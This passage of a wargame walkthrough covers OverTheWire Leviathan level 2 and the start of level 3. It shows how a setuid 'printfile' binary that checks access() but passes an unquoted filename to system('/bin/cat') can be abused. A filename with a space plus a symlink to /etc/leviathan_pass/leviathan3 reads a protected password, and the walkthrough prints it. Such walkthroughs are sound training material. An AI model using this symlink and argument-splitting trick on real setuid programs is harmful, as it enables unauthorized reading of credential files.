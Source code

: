 And if we look back into the previous `ls -la` output, we can see that __printfile__ is owned by __leviathan3__. So `access()` will call the process with __leviathan3's__ privileges.

Looking into the code we also see that __/bin/cat__ is being called on the file to output the contents. While `access()` uses the full path's filename, __/bin/cat__ uses just the first part of the filename. (This is due to how the " " are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, __/bin/cat__ will read the file as 2 separate files.

```console
leviathan2@leviathan:/tmp/levi3$touch pass\ file.txt
leviathan2@leviathan:/tmp/levi3$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

I was right! As you can see, __/bin/cat__ calls "__pass file.txt__" as two separate files, "__pass__" and "__file.txt__". We can actually exploit this! Let’s go ahead and create a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) for the "__pass__" part in "__pass file.txt__", and link it to __/etc/leviathan_pass/leviathan3__.

```console
leviathan2@leviathan:/tmp/levi3$ ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
leviathan2@leviathan:/tmp/levi3$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
lrwxrwxrwx 1 leviathan2 leviathan2      30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2       0 Sep 10 04:54 pass file.txt
leviathan2@leviathan:/tmp/levi3$ ~/printfile "pass file.txt"
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory
```

And bingo was his name, OH! We got the password for leviathan3! Go do a victory lap around the house, you deserved it!

### Level 3 -> 4:
This level was a bit easier than the previous one. Just use what you learned from the previous levels to your advantage. Let's begin by seeing what we have at our disposal.

```console
leviathan3@leviathan:~$ ls -la
total 32
drwxr-xr-x   2 root       root       4096 Mar 21  2015 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan4 leviathan3 9962 Mar 21  2015 level3
```
